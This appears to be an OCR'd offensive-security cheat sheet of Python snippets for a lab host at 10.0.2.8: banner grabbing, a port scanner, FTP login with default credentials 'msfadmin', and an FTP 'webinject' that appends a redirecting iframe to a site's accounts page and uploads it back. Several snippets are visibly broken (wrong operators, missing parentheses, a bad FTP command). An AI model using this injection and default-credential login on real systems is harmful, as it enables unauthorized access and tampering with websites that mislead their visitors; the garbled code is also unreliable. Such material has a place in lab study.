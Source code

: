 ### Networking Functions

#### socket

```python
# Retrieve the banner from a specified IP and Port
import socket
socket.setdefaulttimeout(1)
s=socket.socket()
s.connect_ex(("10.0.2.8",21))
banner=s.recv(1024)
s.close()
print(banner)
```

```python
# Port scanner for a range of ports specifying an IP as the argument
import socket
import sys
try:
  for i in range (1,1024);
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  if s.connect_ex((sys.argv[1],i))=0:
    print(sys.argv[1]+":"+str(i)+ " open"
  s.close()
except Exception, e:
  pass
```

### Working with Websites

#### ftplib

```python
import ftplib
ftp=ftplib.FTP('10.0.2.8')
ftp.login('msfadmin','msfadmin')
ftp.cwd('/var/www/')
ftp.dir()
```

#### urllib

```python
import urllib
f=urllib.urlopen('http://10.0.2.8','index.php')
print(f.read())
```

Using ftplib to execute a webinject

```python
import ftplib
ftp=ftplib.FTP('10.0.2.8')
ftp.login('msfadmin','msfadmin')
ftp.cwd('/var/www/myacc')
f=open('index.tmp'.'w')
ftp.retrlines('RETR myacc.html',f.write)
f.write('<iframe src="http://10.0.2.8/myacc/gotcha"></iframe>')
f.close
f=open('index.tmp','r')
ftp.storlines('STORE myacc.html',f)
f.close()
ftp.close()
print("Accounts page redirected to Gotcha site"
```
